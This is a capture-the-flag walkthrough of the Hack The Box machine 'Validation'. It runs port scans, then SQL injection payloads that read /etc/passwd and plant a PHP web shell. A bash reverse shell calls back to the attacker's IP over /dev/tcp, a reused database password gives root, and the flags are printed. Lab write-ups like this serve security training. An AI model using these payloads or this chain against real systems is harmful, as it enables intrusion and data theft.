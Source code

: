 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Validation





```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.116 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 16:07 CET
Initiating SYN Stealth Scan at 16:07
Scanning 10.10.11.116 [65535 ports]
Discovered open port 22/tcp on 10.10.11.116
Discovered open port 8080/tcp on 10.10.11.116
Discovered open port 80/tcp on 10.10.11.116
Discovered open port 4566/tcp on 10.10.11.116
Completed SYN Stealth Scan at 16:07, 18.90s elapsed (65535 total ports)
Nmap scan report for 10.10.11.116
Host is up, received user-set (0.070s latency).
Scanned at 2025-02-13 16:07:11 CET for 19s
Not shown: 65522 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 62
4566/tcp open  kwtc       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.02 seconds
           Raw packets sent: 67055 (2.950MB) | Rcvd: 67117 (2.691MB)
```



```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.116
	[*] Open ports: 22,80,4566,8080

[*] Ports copied to clipboard
```





```bash
❯ nmap -sCV -p22,80,4566,8080 10.10.11.116 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 16:07 CET
Nmap scan report for 10.10.11.116
Host is up (0.080s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   121.14 ms 10.10.16.1
2   46.79 ms  10.10.11.116

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.30 seconds
```



```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```



<figure><img src="../../.gitbook/assets/4906_vmware_m0Tp36XLAS.png" alt=""><figcaption></figcaption></figure>



```bash
❯ whatweb http://10.10.11.116/
http://10.10.11.116/ [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
```



<figure><img src="../../.gitbook/assets/imagen (337).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (338).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (339).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (340).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (341).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (342).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (343).png" alt=""><figcaption></figcaption></figure>



```sql
'UNION SELECT 1;-- -
```



<figure><img src="../../.gitbook/assets/imagen (344).png" alt=""><figcaption></figcaption></figure>



```sql
'UNION SELECT USER();-- -
```

<figure><img src="../../.gitbook/assets/imagen (345).png" alt=""><figcaption></figcaption></figure>



```sql
'UNION SELECT DATABASE();-- -
```



<figure><img src="../../.gitbook/assets/imagen (346).png" alt=""><figcaption></figcaption></figure>





```sql
'UNION SELECT VERSION();-- -
```

<figure><img src="../../.gitbook/assets/imagen (347).png" alt=""><figcaption></figcaption></figure>



```sql
'UNION SELECT LOAD_FILE('/etc/passwd');-- -
```

<figure><img src="../../.gitbook/assets/imagen (348).png" alt=""><figcaption></figcaption></figure>





```sql
' UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/gzzcoo.php";-- -
```



<figure><img src="../../.gitbook/assets/4920_vmware_akX6HTC6Sp.png" alt=""><figcaption></figcaption></figure>





```bash
❯ curl -s 'http://10.10.11.116/gzzcoo.php?cmd=whoami'
www-data
```



```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```



```sql
❯ curl -s "http://10.10.11.116/gzzcoo.php?cmd=/bin/bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.16.7/443%200>%261'"
```





```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.116] 35532
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ cat /home/htb/user.txt 
034c3ec9bef6ff9b13b0fc256bc395a5
```





```bash
www-data@validation:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@validation:/var/www/html$ sudo -l
bash: sudo: command not found
```



```bash
www-data@validation:/var/www/html$ ls -l
total 36
-rw-r--r-- 1 www-data www-data  1550 Sep  2  2021 account.php
-rw-r--r-- 1 www-data www-data   191 Sep  2  2021 config.php
drwxr-xr-x 1 www-data www-data  4096 Sep  2  2021 css
-rw-r--r-- 1 www-data www-data 16833 Sep 16  2021 index.php
drwxr-xr-x 1 www-data www-data  4096 Sep 16  2021 js
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```





```bash
www-data@validation:/var/www/html$ su root
Password: 
root@validation:/var/www/html$ cat /root/root.txt 
00b9b6d3f6502d1056765e46a0788cb7
```
